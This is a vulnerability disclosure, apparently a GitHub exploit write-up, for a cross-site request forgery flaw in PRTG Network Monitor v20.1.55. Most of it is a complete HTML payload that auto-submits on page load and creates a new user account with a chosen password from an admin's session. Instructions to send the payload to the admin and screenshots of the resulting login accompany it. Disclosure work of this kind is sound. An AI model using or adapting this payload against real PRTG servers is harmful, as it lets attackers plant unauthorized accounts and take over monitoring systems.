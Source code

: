 # PRTG Network Monitoor v20.1.55 - CSRF
Cross Site Request Forgery (CSRF) on PRTG Network Monitor version 20.1.55

Exploit Title: Cross Site Request Forgery (CSRF)  
Date: 10/06/2021  
Exploit Author: Likhith CV  
Vendor Homepage: https://www.paessler.com/  
Software Link: https://www.paessler.com/prtg  
Test on Version: 20.1.55.1775+  
Affected Versions: not tested on other versions  


## Observation
It was observed that anti csrf tokens are not implemented throughout PRTG Network Monitor v 20.1.55 Application

Severity: High

## Steps To reproduce:

To exploit this vulnerability an attacker can simply create a HTML form that would submit a user account creation request and share the link with the victim.On clicking the link , the user account creation request will be triggered in background and it shall create a user account from his valid session.

Any action can be performed on behalf of logged in user but for demonstration user account creation on behalf of admin is shown as example


1. Create a CSRF payload as following
```javascript
<html>
  <body onload="onLoadSubmit()">
  <script>history.pushState('', '', '/')</script>
    <form action="https://[domain]/editsettings" name="cu2" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="login&#95;" value="User&#95;test2" />			<!--username-->
      <input type="hidden" name="name&#95;" value="User&#95;test2" />			<!--name-->
      <input type="hidden" name="email&#95;" value="cvlikhith&#64;gmail&#46;com" />		<!--email-->
      <input type="hidden" name="email" value="" />
      <input type="hidden" name="passwordradio" value="1" />
      <input type="hidden" name="password1" value="Hello123" />				<!--password-->
      <input type="hidden" name="password&#95;" value="" />					<!--confirm_password-->
      <input type="hidden" name="password2" value="Hello123" />
      <input type="hidden" name="passhash" value="" />
      <input type="hidden" name="lastackedsensordeprecationgrowl" value="" />
      <input type="hidden" name="usertype&#95;" value="0" />
      <input type="hidden" name="allowack&#95;" value="0" />
      <input type="hidden" name="allowpwchange&#95;" value="0" />
      <input type="hidden" name="primarygroup&#95;" value="201&#124;PRTG&#32;Users&#32;Group&#124;&#124;&#124;0&#124;" />	<!--group-->
      <input type="hidden" name="primarygroup" value="201" />
      <input type="hidden" name="active&#95;" value="1" />
      <input type="hidden" name="autorefreshtype&#95;" value="1" />
      <input type="hidden" name="autorefreshinterval&#95;" value="30" />
      <input type="hidden" name="playsound&#95;" value="0" />
      <input type="hidden" name="homepage&#95;" value="" />
      <input type="hidden" name="timezone&#95;" value="Dateline&#32;Standard&#32;Time&#124;&#40;UTC&#45;12&#58;00&#41;&#32;International&#32;Date&#32;Line&#32;West" />
      <input type="hidden" name="dateformat&#95;" value="0" />
      <input type="hidden" name="theme&#95;" value="0" />
      <input type="hidden" name="ticketmail&#95;" value="1" />
      <input type="hidden" name="objecttype" value="user" />
      <input type="hidden" name="id" value="new" />
      <input type="hidden" name="targeturl" value="&#47;systemsetup&#46;htm&#63;tabid&#61;5" />
      <input type="submit" value="Submit request" />
    </form>
	<script language="javascript">
function onLoadSubmit() {
	document.cu2.submit();
}
</script>
  </body>
</html>

```
2. Send this payload to admin of the PRTG Portal
3. once Admin opens your payload new user account will be created   

### CSRF Payload
![payload](https://user-images.githubusercontent.com/36541248/121513665-2420c100-c9fc-11eb-819f-c83a94cba544.png)

### Hosting CSRF.html on attacker server
![python_server](https://user-images.githubusercontent.com/36541248/121513670-284cde80-c9fc-11eb-8102-315033fb317f.png)

### User accounts before CSRF attack
![0](https://user-images.githubusercontent.com/36541248/121513531-005d7b00-c9fc-11eb-8346-c04737d7869f.png)

### Once the Admin opens the html, CSRF Payload is triggered and new user account "user_test2" is created
![9](https://user-images.githubusercontent.com/36541248/121513559-07848900-c9fc-11eb-8ae9-4ea660d2a35a.png)

### Testing Credentials
![testing_creds](https://user-images.githubusercontent.com/36541248/121513678-2aaf3880-c9fc-11eb-9d3b-82edacd809a7.png)

### Logged In 
![logged_in](https://user-images.githubusercontent.com/36541248/121513653-2125d080-c9fc-11eb-9285-fde0942c83e1.png)








